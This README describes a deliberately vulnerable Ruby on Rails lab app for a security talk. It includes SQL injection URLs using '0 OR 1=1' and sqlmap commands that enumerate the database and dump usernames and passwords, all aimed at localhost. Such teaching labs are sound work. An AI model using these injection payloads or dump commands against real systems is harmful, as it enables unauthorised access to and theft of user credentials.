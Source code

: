 # README

The project exposes some simple and some complicated vulnerabilities in Ruby on Rails.

Corresponding Slide deck: http://bit.ly/seckc-defend-app-takedown

# Requirements
Docker
Python
sqlmap - https://github.com/sqlmapproject/sqlmap#installation

# Getting Started

To get started, you will want to check out the project

# Running the project

## Docker
docker-compose up -d --build
docker-compose run vulnerable_rails bundle exec rake db:migrate db:seed

# Database
There is one table called users and it is prepoulated with the 100 random users via the db:seed command

# Available APIs

* injectable_users
  - by id
    - localhost:3000/injectable_users?id=0+OR+1=1
  - by first_name
    - localhost:3000/injectable_users?first_name=0+OR+1=1
* not_injectable_users 
  - by user_name
    - localhost:3000/not_injectable_users?user_name=0+OR+1=1
  - by last_name
    - localhost:3000/not_injectable_users?last_name=0+OR+1=1

# SQLMap Commands

```console
sqlmap -u http://localhost:3000/users\?id\=1 --dbs
sqlmap -u http://localhost:3000/users\?id\=1 -D secure_db --tables
sqlmap -u http://localhost:3000/users\?id\=1 -D secure_db -T users --columns
sqlmap -u http://localhost:3000/users\?id\=1 -D secure_db -T users -C user_name,password --dump
```
